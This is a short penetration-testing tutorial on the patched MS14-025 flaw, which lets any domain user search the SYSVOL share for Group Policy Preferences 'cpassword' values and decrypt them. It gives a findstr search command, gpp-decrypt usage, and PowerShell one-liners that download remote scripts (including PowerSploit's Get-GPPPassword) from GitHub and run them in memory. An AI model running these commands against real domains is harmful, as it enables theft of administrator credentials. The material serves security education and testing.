





Finding Passwords in SYSVOL and Exploiting Group Policy Preferences
Potentially Vulnerable Systems
All the OSs before Windows Server 2012 R2 and Windows 8.1.
The Vulnerability is been patched with MS14-025
Group Policy Preferences (GPP)
With Windows Server 2009 Microsoft released “Group Policy Preferences (GPP)”.
Group Policy Preferences (GPP) have some interesting features like:
◇ Scheduled Tasks (ScheduledTasks.xml)
scheduled tasks that can contain explicit credentials
◇ Change local Administrator passwords
change the local admin passwords on large numbers of computers at once. To do that see
Domain Controller → Server Manager → Tools → Group Policy Management → Default Domain Policy (right click and edit) → Computer Configuration → Preferences → Control Panel Settings → Local Users and Groups(right click and New → Local User) →
Action:Update; User name: Administrator(built-in); Password:<your-choice>

SYSVOL
SYSVOL is the the share in the Active Directory to which all authenticated users have read access.
All domain Group Policies are stored here:
\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\
SYSVOL is readable by all users because Group Policies Preferences need to be automatically synchronized and shared among all Domain Controllers.
What happen when Group Policy Preference is created?
When a new GPP is created, there’s an associated XML file created in SYSVOL with the relevant configuration data.
If in this XML file there is a password, it is AES-256 bit encrypted which should be good enough…Except at some point prior to 2012, Microsoft published the AES private key on MSDN which can be used to decrypt the password.
Since authenticated users (any domain user or users in the Domain) like we have already told before have read access to SYSVOL, anyone in the domain can search the SYSVOL share for XML files containing “cpassword” which is the value that contains the AES encrypted password.

Exploiting Group Policy Preferences
• To find the encrypted password with the built in commands of Powershell
PS> findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
/S → recursive search in subdirectories
/I → case insensitive

Then we can decrypt it in another machine with a script
◇ Windows
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/DenFox93/DecryptedCpassword/main/Get-DecryptedCpassword.ps1'); Get-DecryptedCpassword -Cpassword "VPe/o9YRyz2cksnYRbNeQpxQIjMB/W4+CjQJosyeQls"

◇ Linux
kali@kali:~$ gpp-decrypt VPe/o9YRyz2cksnYRbNeQpxQIjMB/W4+CjQJosyeQls

• Get-GPPPassword.ps1 of PowershellMafia will search for the encrypted password and decrypt it all-in-one.
-server → is possible specify the domain controller to search for. By the default this option is set to the to the users current domain
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1 '); Get-GPPPassword -server daniele.local

Bibliography:
• Finding Passwords in SYSVOL & Exploiting Group Policy Preferences – Active Directory Security (adsecurity.org)